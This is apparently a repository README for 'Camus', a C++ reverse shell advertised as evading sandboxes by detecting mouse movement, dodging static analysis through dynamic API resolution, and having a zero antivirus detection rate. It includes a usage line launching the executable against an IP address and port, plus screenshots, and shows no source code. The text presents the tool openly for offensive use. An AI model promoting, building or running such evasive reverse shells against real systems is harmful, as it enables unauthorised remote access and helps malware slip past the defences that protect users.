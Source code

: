 # Camus

<div style="text-align: center; ">
  <img src="Image/1.jpg" width="200">
</div>


Reverse_Shell Implemented in C++ with the ability to bypass sandboxes through detecting mouse movement

Features:
- Reverse_shell implemented through c++
- Bypass sandbox through identifying mouse movement
- Dynamic API resolution for bypassing static analysis
- Zero detection rate (at the moment of speaking)

Usage:
- Run the program alongside with the IP address and port as inputs for example: Camus.exe 192.168.1.1 555 <br />




[Notice] When you trying to test the tool remember to change the mouse cursor otherwise it would be terminated.



 <img src="Image/Antiscan.png" width="500">
 <img src="Image/2.png" width="800">
 <img src="Image/3.png" width="800">
